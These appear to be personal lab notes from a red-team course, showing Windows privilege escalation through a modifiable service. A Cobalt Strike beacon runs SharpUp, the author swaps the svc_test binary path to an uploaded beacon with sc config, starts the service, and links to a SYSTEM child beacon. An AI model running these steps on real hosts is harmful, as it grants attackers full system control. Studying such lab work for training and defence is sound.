 this took a few times to run successfully.
looking up `svc_test` in [[1. wmic service]] displays the result of the path which is `C:\Program Files\Test Service\Test Service.exe `
```powershell
[02/16 20:16:02] beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
[02/16 20:16:03] [*] Tasked beacon to run .NET program: SharpUp.exe audit ModifiableServices
[02/16 20:16:05] [+] host called home, sent: 149292 bytes
[02/16 20:16:06] [+] received output:

=== SharpUp: Running Privilege Escalation Checks ===

[02/16 20:16:06] [+] received output:

=== Modifiable Services ===
	[X] Exception: Exception has been thrown by the target of an invocation.
	[X] Exception: Exception has been thrown by the target of an invocation.
	[X] Exception: Exception has been thrown by the target of an invocation.
	[X] Exception: Exception has been thrown by the target of an invocation.
	Service 'svc_test' (State: Stopped, StartMode: Manual)



[*] Completed Privesc Checks in 0 seconds

```
# Trying to abuse it
made a copy of and renamed `tcp-localonly_x64.exe` to `Service.exe`
![[Pasted image 20240216152244.png]]
unable to upload to that directory
![[Pasted image 20240216152653.png]]
![[Pasted image 20240216153140.png]]
going to try to overwrite the file with the same name

checking to see current path of `svc_test`
```powershell
[02/16 20:39:12] beacon> run sc qc svc_test
[02/16 20:39:12] [*] Tasked beacon to run: sc qc svc_test
[02/16 20:39:12] [+] host called home, sent: 32 bytes
[02/16 20:39:12] [+] received output:
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: svc_test
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Test Service\Test Service.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : svc_test
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
uploaded `tcp-localonly_x64.svc.exe` to `C:\Windows\Tasks`
![[Pasted image 20240216154302.png]]
changing executable path of `svc_test`
```powershell
[02/16 20:43:58] beacon> run sc config svc_test binPath= C:\Windows\Tasks\tcp-localonly_x64.svc.exe
[02/16 20:43:58] [*] Tasked beacon to run: sc config svc_test binPath= C:\Windows\Tasks\tcp-localonly_x64.svc.exe
[02/16 20:43:58] [+] host called home, sent: 88 bytes
[02/16 20:43:58] [+] received output:
[SC] ChangeServiceConfig SUCCESS
```
checking to ensure that the path was actually changed
```powershell
[02/16 20:44:04] beacon> run sc qc svc_test
[02/16 20:44:04] [*] Tasked beacon to run: sc qc svc_test
[02/16 20:44:04] [+] host called home, sent: 32 bytes
[02/16 20:44:04] [+] received output:
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: svc_test
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\Tasks\tcp-localonly_x64.svc.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : svc_test
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
![[Pasted image 20240216154654.png]]
`shell netstat -anp tcp` before the service is started
```powershell
[02/16 20:47:13] beacon> shell netstat -anp tcp
[02/16 20:47:13] [*] Tasked beacon to run: netstat -anp tcp
[02/16 20:47:13] [+] host called home, sent: 47 bytes
[02/16 20:47:13] [+] received output:

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49691          0.0.0.0:0              LISTENING
  TCP    10.10.120.100:139      0.0.0.0:0              LISTENING
  TCP    10.10.120.100:3389     10.10.255.244:50850    ESTABLISHED
  TCP    10.10.120.100:54112    10.10.120.254:3128     ESTABLISHED
  TCP    127.0.0.1:13042        0.0.0.0:0              LISTENING
  TCP    127.0.0.1:49158        0.0.0.0:0              LISTENING
```
ran the `svc_test` with the new file path to my `tcp-localonly.svc.exe` beacon
```powershell
[02/16 20:47:26] beacon> run sc start svc_test
[02/16 20:47:26] [*] Tasked beacon to run: sc start svc_test
[02/16 20:47:26] [+] host called home, sent: 35 bytes
[02/16 20:47:27] [+] received output:

SERVICE_NAME: svc_test 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2636
        FLAGS              : 

```
`shell netstat -anp tcp` after the `svc_test` was started
- port 4444 is listening
```powershell
[02/16 20:47:41] beacon> shell netstat -anp tcp
[02/16 20:47:41] [*] Tasked beacon to run: netstat -anp tcp
[02/16 20:47:48] [+] host called home, sent: 47 bytes
[02/16 20:47:49] [+] received output:

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49691          0.0.0.0:0              LISTENING
  TCP    10.10.120.100:139      0.0.0.0:0              LISTENING
  TCP    10.10.120.100:3389     10.10.255.244:50850    ESTABLISHED
  TCP    10.10.120.100:54114    10.10.120.254:3128     ESTABLISHED
  TCP    127.0.0.1:4444         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:13042        0.0.0.0:0              LISTENING
  TCP    127.0.0.1:49158        0.0.0.0:0              LISTENING
```
`connect localhost 4444`
```powershell
[02/16 20:48:03] beacon> connect localhost 4444
[02/16 20:48:03] [*] Tasked to connect to localhost:4444
[02/16 20:48:03] [+] host called home, sent: 20 bytes
[02/16 20:48:03] [+] established link to child beacon: 10.10.120.100
```
![[Pasted image 20240216155900.png]]
connect from `consultant` to become `SYSTEM`